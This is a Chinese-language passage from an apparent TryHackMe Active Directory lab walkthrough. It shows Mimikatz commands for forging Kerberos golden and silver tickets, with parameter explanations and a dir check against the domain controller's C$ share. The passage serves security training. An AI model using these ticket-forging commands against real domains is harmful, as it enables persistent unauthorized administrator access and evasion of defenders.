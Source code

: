 现在我们拥有所有所需的信息，可以重新启动 Mimikatz：

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

一旦加载了 Mimikatz，请执行以下步骤生成一个黄金票据：

```shell title="Mimikatz Terminal"
mimikatz # kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```

参数解释：

- /admin - 我们想要冒充的用户名。这不一定是有效的用户。
- /domain - 我们要为其生成票据的域的完全限定域名（FQDN）。
- /id - 用户 RID。默认情况下，Mimikatz 使用 RID 500，这是默认管理员账户的 RID。
- /sid - 我们要为其生成票据的域的 SID。
- /krbtgt - KRBTGT 账户的 NTLM 哈希。
- /endin - 票据的生存期。默认情况下，Mimikatz 生成的票据有效期为 10 年。AD 的默认 Kerberos 策略是 10 小时（600 分钟）。
- /renewmax - 带续订的最大票据生存期。默认情况下，Mimikatz 生成的票据有效期为 10 年。AD 的默认 Kerberos 策略是 7 天（10080 分钟）。
- /ptt - 此标志告诉 Mimikatz 将票据直接注入会话中，这意味着它已准备好使用。

我们可以通过针对域控制器运行 dir 命令来验证黄金票据是否有效。

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>dir \\thmdc.za.tryhackme.loc\c$\
```

即使黄金票据的时间非常长，蓝队仍然可以通过简单地两次更改 KRBTGT 密码来防御。如果我们确实想要深入挖掘，我们希望生成白银票据，这更不容易被发现，而且防御起来显著困难，因为必须更改每个机器账户的密码。我们可以使用以下 Mimikatz 命令生成白银票据：

```shell title="Mimikatz Terminal"
mimikatz # kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```

参数解释：

- /admin - 我们想要冒充的用户名。这不一定是有效的用户。
- /domain - 我们要为其生成票据的域的完全限定域名（FQDN）。
- /id - 用户 RID。默认情况下，Mimikatz 使用 RID 500，这是默认管理员账户的 RID。
- /sid - 我们要为其生成票据的域的 SID。
- /target - 我们目标服务器的主机名。让我们使用 THMSERVER1.za.tryhackme.loc，但它可以是任何加入域的主机。
- /rc4 - 我们目标机器账户的 NTLM 哈希。浏览你的 DC Sync 结果以获取 THMSERVER1$ 的 NTLM 哈希。$ 表示它是一个机器账户。
- /service - 我们在 TGS 中请求的服务。CIFS 是一个安全的选择，因为它允许文件访问。
- /ptt - 此标志告诉 Mimikatz 将票据直接注入会话中，这意味着它已准备好使用。
